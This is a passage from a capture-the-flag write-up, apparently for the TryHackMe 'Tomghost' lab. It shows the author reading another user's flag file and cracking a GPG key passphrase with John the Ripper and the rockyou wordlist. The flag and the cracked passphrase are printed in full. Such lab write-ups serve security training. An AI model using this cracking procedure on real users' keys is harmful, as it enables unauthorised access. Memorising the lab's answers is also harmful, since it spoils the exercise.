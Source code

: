 Looks like these are not the file we are looking for but we will get back to these.

Let's look for any other user and see if we can find anything in there directory:

```
skyfuck@ubuntu:~$ cd ..
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls -l
total 4
-rw-rw-r-- 1 merlin merlin 26 Mar 10  2020 user.txt
```

We have found the required file and it seems we can read it as well:

```
skyfuck@ubuntu:/home/merlin$ cat user.txt 
THM{GhostCat_1s_so_cr4sy}
```

AAANnnddd we got our first flag!!

# Privilege Escalation

Now for the final procedure, we need to gain the root access, and that can be done by escalating the priviledges.

Let's re-visits the file that first found in the user's directory.

There were two files:
- credentials.pgp
- tryhackme.asc

Let's download the key file and findout the user by cracking the code using **johntheripper**

```
$ john thm_tomghost_hash --wordlist=/usr/share/wordlists/rockyou.txt 

Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2023-04-02 01:21) 1.086g/s 1165p/s 1165c/s 1165C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now log back in the server again, we will decrypt the .pgp file:
